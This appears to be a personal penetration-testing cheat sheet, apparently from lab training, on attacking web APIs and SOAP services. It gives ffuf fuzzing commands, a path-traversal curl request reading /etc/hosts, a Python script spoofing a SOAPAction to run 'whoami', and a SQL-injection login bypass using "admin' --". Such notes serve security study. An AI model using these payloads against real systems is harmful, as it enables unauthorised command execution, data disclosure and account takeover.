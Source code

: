 # API Attacks
## Testing for API functionality
1. Perform ffuf attack as follows:
```shell
ffuf -w "/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19
```
- If you find a valid parameter (ex: `id`), continue
2. Send requests with the found valid parameter to check responses:
```shell
curl http://<TARGET IP>:3003/?id=1
```
- If this works, create script and run to retrieve all information: [[Cybersecurity/Web App Security/Web Application Testing/5. Web Services & APIs/Web Service & API Attacks/API Attacks/1. Information Disclosure#Information Disclosure through Fuzzing]]
3. If this doesn't work, test for SQLi through same `id` paramater: [[Cybersecurity/Web App Security/Web Application Testing/5. Web Services & APIs/Web Service & API Attacks/API Attacks/1. Information Disclosure#Information Disclosure through SQL Injection]]


### Fuzz for API endpoints:
```shell
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
```



### Check for LFI attack
```shell
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
```



## Testing for SSRF: [[Cybersecurity/Web App Security/Web Application Testing/5. Web Services & APIs/Web Service & API Attacks/API Attacks/5. Server-Side Request Forgery (SSRF)#Example Scenario]]


# WSDL File Found
## Finding Vulnerable Functions
### If WSDL file runs commands
1. Look through the WSDL file for:
	- `<wsdl:operation name="...">`
	- `<soap:operation soapAction="..." />` 
		- Look through the elements under this section and:
		- Look for risky functions in here (`exec`, `run`, `cmd`, `upload`, `admin`, `debug`, etc.)
2. If found interesting sections, we can build a script to make our own requests:
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
- Change the following based on your wsdl file:
	- `xmlns:tns=...` 
	- `ExecuteCommandRequest xmnls=...` 
	- `http://<TARGET IP>:3002/wsdl` - change to victims endpoint for their wsdl file
	- `"SOAPAction":'"ExecuteCommand"`

3. Execute script to run the `whoami` command:
```shell
python3 client_soapaction_spoofing.py
```




### If we find a SOAPAction parameter that sends username/password
1. Find a SOAPAction with username and password elements:
```xml
      <s:element name="LoginRequest">
        
        <s:complexType>
          <s:sequence>
            <s:element minOccurs="1" maxOccurs="1" name="username" type="s:string"/>
            <s:element minOccurs="1" maxOccurs="1" name="password" type="s:string"/>
          </s:sequence>
        </s:complexType>
        
      </s:element>
```
2. Specify element name (`LoginRequest`) within `<soap:Body>`
3. Provide a SQLi that will allow us to login as a valid user (ex: `admin` -> `admin' --`) for the `<username>`
4. Provide any dummy password value for `<password>`
5. Then use following script to trigger the vulnerability:
```python
import requests

payload = "admin' --"
data = f'<?xml version="1.0" encoding="UTF-8"?> <soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/" xmlns:tns="http://tempuri.org/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"> <soap:Body> <LoginRequest xmlns="http://tempuri.org/"> <username>{payload}</username> <password>fff</password> </LoginRequest> </soap:Body> </soap:Envelope>'

print(requests.post("http://IP-ADDRESS:PORT/wsdl", data=data, headers={"SOAPAction":'"Login"'}).content)
```
- Change based on circumstances:
	- `admin' --` - Change with valid username
	- `xmlns:tns=...`
	- `<LoginRequest...` & `</LoginRequest>`
	- `<username>` - If it is called something different (ex: `user`, `usernamelogin`, etc.)
		- Same with `<password>`
	- `http://<TARGET IP>:3002/wsdl` - change to victims endpoint for their wsdl file

We can then run it with:
```shell
python3 sqli.py
```
